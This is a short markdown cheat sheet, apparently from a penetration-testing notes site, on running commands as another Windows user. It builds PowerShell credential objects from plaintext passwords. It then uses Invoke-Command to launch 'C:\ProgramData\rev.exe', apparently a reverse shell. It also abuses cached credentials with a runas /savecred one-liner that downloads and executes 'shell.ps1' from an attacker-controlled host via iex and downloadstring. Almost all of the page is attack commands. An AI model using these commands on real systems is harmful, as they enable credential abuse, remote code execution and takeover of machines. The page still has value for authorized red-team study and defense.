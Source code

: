 ```yaml
---
title: "Runas"
date: 2024-7-10
tags: ["powershell", "cred object", "Windows", "runas"]
---
```


### Create credential object

{{< tab set1 tab1 active >}}Method #1{{< /tab >}}
{{< tab set1 tab2 >}}Method #2{{< /tab >}}
{{< tabcontent set1 tab1 >}}

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = ConvertTo-SecureString '<PASSWORD>' -AsPlainText -Force
```

```console
$cred = New-Object System.Management.Automation.PSCredential($username, $password)
```

{{< /tabcontent >}}
{{< tabcontent set1 tab2 >}}

```console
$username = '<DOMAIN>\<USER>'
```

```console
$password = '<PASSWORD>'
```

```console
$secstr = New-Object -TypeName System.Security.SecureString
```

```console
$password.ToCharArray() | ForEach-Object {$secstr.AppendChar($_)}
```

```console
$cred = new-object -typename System.Management.Automation.PSCredential -argumentlist $username, $secstr
```

{{< /tabcontent >}}

### Runas (with cred object)

{{< tab set2 tab1 active >}}Invoke-Command{{< /tab >}}
{{< tab set2 tab2 >}}PSSession{{< /tab >}}
{{< tabcontent set2 tab1 >}}

```console
Invoke-Command -ScriptBlock { C:\ProgramData\rev.exe } -Credential $cred -Computer localhost
```

```console
# If error, try
Invoke-Command -ScriptBlock { C:\ProgramData\rev.exe } -Credential $cred -Computer localhost -auth credssp
```

```console
# Invoke command with config
Invoke-Command -ScriptBlock { C:\ProgramData\rev.exe } -Credential $cred -Computer localhost -ConfigurationName config_name
```

{{< /tabcontent >}}
{{< tabcontent set2 tab2 >}}

```console
new-pssession -computername . -credential $cred
```

```console
# Switch to new session
enter-pssession 1
```

{{< /tabcontent >}}

### Runas (with cache creds)

#### Check cache creds

```console
cmdkey /list
```

#### Run Command

```console
# e.g. Upload and run a shell
runas /user:<DOMAIN>\<USER> /savecred "powershell iex(new-object net.webclient).downloadstring('http://<LOCAL_IP>/shell.ps1')"
```
